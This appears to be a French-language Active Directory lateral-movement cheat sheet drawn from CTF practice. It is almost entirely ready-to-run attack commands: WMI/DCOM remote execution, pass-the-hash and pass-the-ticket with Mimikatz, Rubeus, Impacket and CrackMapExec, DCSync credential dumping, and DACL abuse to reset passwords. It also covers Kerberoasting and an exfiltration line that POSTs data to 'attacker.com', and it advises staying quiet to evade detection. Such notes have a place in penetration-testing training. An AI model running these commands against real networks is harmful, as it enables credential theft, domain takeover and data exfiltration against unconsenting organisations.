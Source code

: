 # Mouvement Latéral

## Techniques de Mouvement Latéral avec WMI/DCOM

### WMI (Windows Management Instrumentation)

```powershell
# Créer un objet d'identifiants
$username = 'inlanefreight\user'
$password = 'Password123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

# Exécuter une commande via WMI
$Command = "powershell.exe -enc BASE64_ENCODED_COMMAND"
Invoke-WmiMethod -ComputerName target.inlanefreight.local -Class Win32_Process -Name Create -ArgumentList $Command -Credential $credential
```
### DCOM (Distributed COM)
```powershell
# Utiliser DCOM pour l'exécution à distance
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName target.inlanefreight.local -Credential $credential -SessionOption $Options 
$command = 'powershell.exe -enc BASE64_ENCODED_COMMAND'
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command}
```
## Techniques utilisant WinRM
### PowerShell Remoting (WinRM)

```powershell
# Établir une session PowerShell à distance
Enter-PSSession -ComputerName target.inlanefreight.local -Credential $credential

# Exécuter une commande sur un système distant
Invoke-Command -ComputerName target.inlanefreight.local -Credential $credential -ScriptBlock {whoami; hostname}
```
### WinRM depuis Linux

```bash
# Utiliser Evil-WinRM
evil-winrm -i target.inlanefreight.local -u username -p 'Password123!'

# Avec un hash NTLM (Pass-the-Hash)
evil-winrm -i target.inlanefreight.local -u username -H 'NTLM_HASH'
```
## Problème du "Double Hop" Kerberos
Le problème de "Double Hop" se produit lorsque vous êtes authentifié sur une machine A via Kerberos et que vous tentez d'accéder à une machine B depuis cette machine A.
### Solution 1: Utiliser un objet PSCredential
```powershell
# Sur la session WinRM
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\username', $SecPassword)

# Utiliser les identifiants pour chaque commande nécessitant un accès réseau
Get-DomainUser -Credential $Cred
```
### Solution 2: Configuration de session PSRemoting
```powershell
# Enregistrer une configuration de session qui utilise les identifiants
Register-PSSessionConfiguration -Name SessionWithCreds -RunAsCredential inlanefreight\username
Restart-Service WinRM

# Se connecter en utilisant cette configuration
Enter-PSSession -ComputerName target.inlanefreight.local -ConfigurationName SessionWithCreds
```
## Pass-the-Hash
### Avec CrackMapExec

```bash
# Exécution de commande avec un hash NTLM
crackmapexec smb target.inlanefreight.local -u username -H NTLM_HASH -x "whoami"

# Vérifier l'accès PowerShell Remoting
crackmapexec winrm target.inlanefreight.local -u username -H NTLM_HASH
```
### Avec Impacket
```bash
# PsExec avec Pass-the-Hash
impacket-psexec -hashes :NTLM_HASH inlanefreight.local/username@target.inlanefreight.local

# WMI avec Pass-the-Hash
impacket-wmiexec -hashes :NTLM_HASH inlanefreight.local/username@target.inlanefreight.local
```
## Pass-the-Ticket
### Avec Mimikatz

```powershell
# Exporter des tickets depuis la mémoire
kerberos::list
kerberos::list /export

# Injecter un ticket dans la session
kerberos::ptt ticket.kirbi
```
### Avec Rubeus
```powershell
# Exporter un ticket
.\Rubeus.exe dump /service:krbtgt

# Injecter un ticket
.\Rubeus.exe ptt /ticket:ticket.kirbi
```
## Overpass-the-Hash (génération de ticket Kerberos)
### Avec Rubeus
```powershell
# Convertir un hash NTLM en ticket Kerberos
.\Rubeus.exe asktgt /domain:inlanefreight.local /user:username /rc4:NTLM_HASH /ptt
```
### Avec Mimikatz
```powershell
# Utiliser sekurlsa::pth pour créer une nouvelle session avec le hash
sekurlsa::pth /user:username /domain:inlanefreight.local /ntlm:NTLM_HASH /run:powershell.exe
```
## Utilisation des identifiants extraits
### DCSync pour extraire des credentials
```powershell
# Avec Mimikatz
lsadump::dcsync /domain:inlanefreight.local /user:Administrator

# Avec Impacket
secretsdump.py -just-dc inlanefreight.local/username:password@dc.inlanefreight.local
```
### Recherche de comptes de services et d'administrateurs locaux
```powershell
# Trouver sur quels postes l'utilisateur a des droits d'admin local
Find-LocalAdminAccess -Verbose

# Cibler les administrateurs locaux
Invoke-UserHunter -CheckAccess
```
## Techniques pour échapper aux contrôles de sécurité
### Contournement via LAPS

```powershell
# Lire le mot de passe LAPS avec les droits appropriés
Get-DomainComputer -Identity target -Properties ms-Mcs-AdmPwd | select name,"ms-Mcs-AdmPwd"
```
### Utilisation de communications chiffrées
```powershell
# Établir un tunnel HTTPS pour l'exfiltration
Invoke-WebRequest -Uri "https://attacker.com/$env:COMPUTERNAME.txt" -Method POST -Body $result
```
## Points Clés

- Documenter tous les mouvements latéraux réussis
- Privilégier les méthodes silencieuses pour éviter la détection
- Comprendre les limitations du Double Hop pour les projets réels
- Mixer différentes techniques pour contourner les barrières de sécurité
- Être conscient des logs générés par les différentes méthodes
## Techniques de mouvement latéral tirées de CTFs réels

#### Abus des droits DACL (WriteOwner, GenericAll, GenericWrite) (Administrator)
Lorsqu'un utilisateur a des droits spécifiques sur d'autres objets AD:
#### Exploitation de WriteOwner
```bash
# Avec bloodyAD
bloodyAD -u "utilisateur" -p "motdepasse" -d "domaine" --host "IP" add owner --target "Groupe" --owner "Utilisateur"
```
#### Exploitation de GenericAll
```bash
# Avec PowerView
Set-DomainUserPassword -Identity "utilisateur_cible" -Password (ConvertTo-SecureString "nouveau_mot_de_passe" -AsPlainText -Force)

# Avec bloodyAD
bloodyAD -u "utilisateur" -p "motdepasse" -d "domaine" --host "IP" set password --target "utilisateur_cible" --new-password "nouveau_mot_de_passe"

#avec add computer
impacket-addcomputer 'SUB.POSEIDON.YZX/jackie:Password1' -dc-host 'DC02.SUB.POSEIDON.YZX' -dc-ip '192.168.172.162' -computer-name 'hacker$' -computer-pass 'P@ssword123'

#problemes souvent avec le hosts file 
#demander un ticker pour le user ->
impacket-getTGT 'SUB.POSEIDON.YZX/hacker$:P@ssword123'
```
#### Exploitation de GenericWrite pour Kerberoasting
```bash
# Création d'un SPN via targetedKerberoast.py
python targetedKerberoast.py -u "utilisateur" -p "motdepasse" -d "domaine" --dc-ip IP

# Cracker le hash obtenu
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
> ⚠️ N'oubliez pas de synchroniser l'heure avec le contrôleur de domaine avant d'exécuter des attaques Kerberos:
```bash
bash> sudo ntpdate -u <IP du DC>
```
### Énumération et visualisation avec BloodHound (Administrator, Certified)
#### BloodHound est essentiel pour identifier les chemins d'attaque:
```bash
# Collecte de données avec BloodHound Python
bloodhound-python -u utilisateur -p 'password' -c All -d domaine.tld -ns 10.10.10.x
```
Après importation dans BloodHound, marquez les utilisateurs compromis comme "Owned" et recherchez:
- Shortest Paths to High Value Targets
- Objets avec contrôles délégués (GenericAll, WriteOwner, etc.)

